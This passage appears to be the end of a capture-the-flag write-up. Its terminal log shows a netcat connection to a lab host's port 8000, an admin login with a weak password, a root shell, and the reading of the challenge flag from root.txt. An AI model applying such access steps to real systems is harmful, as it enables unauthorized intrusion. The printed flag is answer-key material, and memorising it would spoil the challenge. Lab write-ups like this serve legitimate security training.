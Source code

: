 ```terminal
nc 10.10.100.37 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# pwd
pwd
/root
# ls -la
ls -la
total 68
drwxrwx---  7 root root  4096 Apr 15  2024 .
drwxr-xr-x 18 root root  4096 Dec 22  2023 ..
lrwxrwxrwx  1 root root     9 Jun  2  2023 .bash_history -> /dev/null
-rwxrwx---  1 root root  3230 Jun 21  2023 .bashrc
drwx------  2 root root  4096 Jun 21  2023 .cache
drwx------  3 root root  4096 Dec 22  2023 .config
-rw-r--r--  1 root root    29 Jun 21  2023 .gitconfig
drwxr-xr-x  3 root root  4096 Jan  4  2024 .local
-rwxrwx---  1 root root   161 Dec  5  2019 .profile
-rwxr-xr-x  1 root root  5360 Apr 15  2024 pyrat.py
-rw-r-----  1 root root    33 Jun 15  2023 root.txt
-rw-r--r--  1 root root    75 Jun 15  2023 .selected_editor
drwxrwx---  3 root root  4096 Jun  2  2023 snap
drwxrwx---  2 root root  4096 Jun  2  2023 .ssh
-rw-rw-rw-  1 root root 10561 Apr 15  2024 .viminfo
# cat roo
cat roo
cat: roo: No such file or directory
# cat root.txt
cat root.txt
ba5ed03e9e74bb98054438480165e221
```

DONE!